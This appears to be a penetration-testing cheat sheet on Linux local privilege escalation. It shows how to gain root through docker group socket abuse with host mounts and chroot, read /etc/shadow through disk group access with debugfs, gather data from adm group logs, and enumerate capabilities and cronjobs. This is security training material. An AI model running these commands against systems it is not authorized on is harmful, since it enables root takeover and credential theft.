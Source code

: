 ```shell
docker run -v /root:/mnt -it $IMAGE_NAME

docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
docker -H unix:///app/docker.sock ps
docker -H unix:///app/docker.sock exec -it $CONTAINER_ID /bin/bash

docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it $IMAGE_NAME chroot /mnt bash
```

- Once the container is started we are able to browse the mounted directory and retrieve
or add SSH keys for the root user or read `/etc/shadow` file.

### Disk

- Users within the disk group have full access to any devices contained within `/dev`, such as
`/dev/sda1`, which is typically the main device used by the operating system.
- An attacker with these privileges can use `debugfs` to access the entire file system with root
level privileges.

```shell
# Verify disk access
ls -l /dev/sda1
# Launch debugfs
sudo debugfs /dev/sda1
# Read sensitive files
debugfs: cat /etc/shadow
```

### ADM

- Members of the adm group are able to read all logs stored in `/var/log`.
- This does not directly grant root access, but could be leveraged to gather sensitive data 
stored in log files or enumerate user actions and running cron jobs.


## Capabilities

- Linux capabilities are a security feature in the Linux operating system that allows specific
privileges to be granted to processes, allowing them to perform specific actions that would otherwise 
be restricted.
- This allows for more fine-grained control over which processes have access to certain privileges, 
making it more secure than the traditional Unix model of granting privileges to users and groups.

```shell
# Enumerating capabilities
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

## Cronjobs

```shell
# Enumerating cronjobs
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# Using pspy, a command-line tool used to view running processes
./pspy -pf -i 1000
```
